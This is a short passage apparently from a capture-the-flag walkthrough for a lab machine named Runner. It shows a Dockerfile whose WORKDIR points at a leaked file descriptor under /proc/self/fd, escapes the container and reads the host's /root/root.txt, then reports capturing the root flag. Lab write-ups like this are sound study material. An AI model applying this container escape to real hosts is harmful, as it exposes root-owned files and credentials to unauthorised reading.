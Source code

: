```bash
FROM ubuntu:latest
WORKDIR /proc/self/fd/8
RUN cat ../../../root/root.txt
```

Got the `root.txt` flag

![img](/assets/img/Runner/19.webp)